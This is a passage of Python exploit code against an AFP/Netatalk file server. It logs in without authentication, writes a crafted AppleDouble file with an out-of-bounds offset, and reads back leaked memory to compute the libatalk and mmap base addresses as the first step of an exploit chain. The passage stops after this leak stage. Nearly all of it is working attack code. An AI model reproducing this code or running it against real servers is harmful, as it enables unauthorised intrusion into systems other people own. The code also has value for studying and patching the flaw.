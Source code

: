 ```plain
  header = header.ljust(0x1000, b'\x00')
  return header

if len(sys.argv) < 4:
    print('Usage:  '+sys.argv[0]+' <IP> <port> <volume name> [debug]\n')
    sys.exit(0)

ip = sys.argv[1]
port = int(sys.argv[2])
volume = sys.argv[3]

debug = False
if len(sys.argv) == 4 and sys.argv[3] == "debug":
    debug = True

p = connect(ip, port)
response, request_id = DSIOpenSession(p, debug)
response, request_id = FPLogin(p, request_id, b'AFP3.3', b'No User Authent', None, debug)
response, request_id, volume_id = FPOpenVol(p, request_id, 0x21, bytes(volume,encoding='utf-8'), None, debug)


# step 1:   leak libatalk base & mmap zone base
#------------------------------------------------------------------------------------------------
tempfile_name = getARandomName(15)
cpt_file_name = 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

#prepare appledouble with oob
# leak address inside ad structure on stack
appledouble = createAppleDouble(-0x10)

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)

data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)

# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(appledouble), appledouble, debug)    

# time to trig the leak
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)

# get the leak inside appledouble
response, request_id = FPReadExt(p, request_id, fork2, 0, 128, debug)

print('response:\n----------------\n'+hexdump(response))
leak1 = u32(response[0x4c:0x50], endian='little')
libatalk = leak1 - 0x70928
mmap_zone = libatalk+0xa2000
print('\nlibatalk base = '+hex(libatalk)+'   (leak = '+hex(leak1)+')')
print('mmap zone base = '+hex(mmap_zone))

```
